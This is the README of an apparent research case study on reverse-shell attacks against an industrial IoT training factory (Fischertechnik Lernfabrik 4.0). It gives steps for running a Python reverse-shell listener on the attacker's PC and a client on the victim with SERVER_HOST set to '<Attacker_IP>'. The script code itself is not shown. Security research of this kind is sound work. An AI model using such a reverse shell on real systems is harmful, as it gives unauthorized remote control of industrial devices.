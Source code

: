 # Hacking the Backbone

**Hacking the Backbone: Shell Reverse Attacks on IIoT Systems**

Case study using Fischertechnik's Lernfabrik 4.0 (9V)

## This repository includes
- The script for the reverse shell server (`server.py`) and client (`client.py`)

## How to use it?

1. **Setting up the Client (Victim Device)**
   - `client.py` is the reverse shell payload that needs to be run on the victim device.
   - Before running this script, change the following variables:
     - `SERVER_HOST = "<Attacker_IP>"`
     - `SERVER_PORT = <Attacker Port>`

2. **Setting up the Server (Attacker's PC)**
   - `server.py` is the reverse shell listener that needs to be run on the attacker's PC.

## Required Packages
- `socket`

### Steps to Run

1. **On the Attacker's PC:**
   - Open a terminal and navigate to the directory containing `server.py`.
   - Run the server script:
     ```
     python server.py
     ```

2. **On the Victim Device:**
   - Transfer `client.py` to the victim device.
   - Open a terminal on the victim device and navigate to the directory containing `client.py`.
   - Run the client script:
     ```
     python client.py
     ```

Once both scripts are running, the reverse shell connection will be established, providing the attacker with remote access to the victim device.

---

#### Video: [Youtube](https://youtu.be/u8nhV5LXjJU)

**Disclaimer:** This project is intended for educational purposes only. Unauthorized use of these scripts for malicious purposes is illegal and unethical. Always obtain proper authorization before testing security on any system.




<img src="https://github.com/rnrn0909/beyondthelens/assets/57967202/236eb741-b6dc-4f8a-89b1-ebfc66ee2a2e" align="right" width="260" height="40">
